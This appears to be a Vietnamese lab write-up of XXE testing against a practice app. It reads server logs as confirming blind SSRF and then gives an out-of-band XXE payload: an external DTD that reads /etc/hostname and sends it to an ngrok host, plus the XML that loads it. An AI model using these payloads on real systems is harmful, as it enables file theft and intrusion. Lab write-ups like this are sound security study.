 **1. ::1 - - [02/Oct/2025 17:29:25] "GET /ping.dtd HTTP/1.1" 200 -**

- Ý nghĩa: Server lab đã kết nối đến server python và tải thành công file ping.dtd. Status 200 có nghĩa là "OK".

**2. ::1 - - [02/Oct/2025 17:29:25] "GET /ping-successful HTTP/1.1" 404 -**

- Ý nghĩa: Đây là dòng quan trọng nhất. Sau khi đọc ping.dtd, server lab đã hiểu lệnh bên trong (<!ENTITY % ping SYSTEM ".../ping-successful">) và đã thực thi nó. Nó đã gửi đi một request thứ hai đến địa chỉ /ping-successful.

Tại sao lại là 404? Vì trên server python không hề có file nào tên là ping-successful. Server python trả về lỗi "404 File Not Found" là hoàn toàn đúng.

- Kết luận: Thành công sử dụng XXE để thực thi Blind SSRF vì ta có thể thấy xml payload trong ping.dtd vẫn được thực thi và trỏ đến xem có file `/ping-successful` không và từ đó có thể thấy xml trong đoạn vẫn được thực thi nhưng ở đây có khả năng cao do cấu hình của Spring không còn cho phép thực thi các lệnh như `file` nên không đọc file được.

Bây giờ nếu windows không được ta sẽ chuyển sang thử môi trường linux để xem liệu có chạy được không.

![image](https://hackmd.io/_uploads/HJlA5Mhhgx.png)

Host python server lên.

![image](https://hackmd.io/_uploads/H1akozh2lx.png)

Chạy ngrok để listen localhost 8000 của python server.

![image](https://hackmd.io/_uploads/Bkhzof23xx.png)

Tạo file `exploit-linux.dtd` với nội dung:

```xml 
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://eparchial-dahlia-edgier.ngrok-free.dev/%file;'>">
%eval;
%exfiltrate;        
``

Payload này sẽ giúp ta đọc dữ liệu của file `/etc/hostname`.

Bây giờ ta sẽ bỏ payload vào trong level 9 để xem dữ liệu trả về ra sao.

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
    <!ENTITY % oob SYSTEM "https://eparchial-dahlia-edgier.ngrok-free.dev/exploit-linux.dtd">
    %oob;
]>
<data>go</data>
```

![image](https://hackmd.io/_uploads/Byux2G3hll.png)
